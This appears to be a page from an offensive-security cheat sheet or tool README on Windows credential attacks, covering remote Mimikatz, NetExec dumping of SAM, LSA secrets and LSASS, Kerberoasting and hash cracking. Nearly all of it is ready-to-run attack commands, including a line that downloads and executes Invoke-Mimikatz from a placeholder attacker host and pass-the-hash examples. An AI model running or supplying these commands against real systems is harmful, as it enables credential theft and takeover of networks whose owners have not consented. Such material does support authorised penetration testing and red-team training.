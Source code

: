 ### Mimikatz (Remote System)

**Manual:**
```bash
# Create a PowerShell script with Invoke-Mimikatz
# Execute remotely
Enter-PSSession -ComputerName 192.168.1.100 -Credential (Get-Credential)
IEX (New-Object Net.WebClient).DownloadString('http://attacker/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords" "exit"'
```

**Automated:**
```bash
# Remote credential extraction
./mimikatz-wrapper.py remote -t 192.168.1.100 -d contoso.local -u administrator -p Password123!

# Remote credential extraction via Pass-the-Hash
./mimikatz-wrapper.py remote -t 192.168.1.100 -d contoso.local -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0
```

### NetExec Credential Harvesting

**Manual:**
```bash
# SAM dumping
netexec smb 192.168.1.100 -u administrator -p 'Password123!' --sam

# LSA secrets
netexec smb 192.168.1.100 -u administrator -p 'Password123!' --lsa

# LSASS dumping
netexec smb 192.168.1.100 -u administrator -p 'Password123!' -M lsassy
```

**Automated:**
```bash
# Credential enumeration using NetExec wrapper
./netexec-enumerator.py set username administrator
./netexec-enumerator.py set password Password123!
./netexec-enumerator.py set target 192.168.1.100
./netexec-enumerator.py enum creds
```

---

## Kerberos Attacks

### Kerberoasting

**Manual:**
```bash
# Using Impacket
GetUserSPNs.py contoso.local/user:password -dc-ip 192.168.1.100 -request -output spns.txt

# Using PowerShell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerView.ps1
Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\kerberoasted-hashes.csv -NoTypeInformation

# Cracking with Hashcat
hashcat -m 13100 spns.txt wordlist.txt --force
```
